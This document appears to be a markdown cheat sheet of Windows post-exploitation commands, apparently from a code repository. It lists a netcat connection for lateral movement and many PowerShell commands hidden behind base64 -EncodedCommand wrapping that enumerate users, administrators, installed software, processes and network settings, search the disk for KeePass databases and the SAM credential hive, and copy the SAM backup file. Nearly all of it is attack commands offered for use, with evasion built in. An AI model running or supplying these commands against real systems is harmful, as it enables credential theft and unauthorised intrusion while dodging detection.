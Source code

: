## Lateral Movement:

- `nc 192.168.50.220 4444`

## Local Account Enumeration:

- `$command = "whoami"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "whoami /groups"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-LocalUser"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-LocalGroup"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-LocalGroupMember Administrators"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-LocalGroupMember Administrators | Where-Object { $_.PrincipalSource -eq 'Local' } | Select-Object Name"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = ""; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `Get-LocalUser -Name "username" | Select-Object *`

- `Get-LocalGroupMember Administrators | Where-Object { $_.PrincipalSource -eq 'Local' } | Select-Object Name
`

## Get Installed Applications:

### 32 Bit:

- `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

### 64 Bit:

- `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

## Local System Enumeration

- `$command = "Get-Process"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include SAM -File -Recurse -ErrorAction SilentlyContinue"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include _.txt,_.ini -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern 'YourSearchString'"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Copy-Item -Path "$env:SystemRoot\System32\Config\RegBack\SAM" -Destination 'C:\Path\To\NewLocation\SAM'"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "systeminfo"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "ipconfig /all"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "route print"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "netstat -ano"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = ""; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = ""; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`
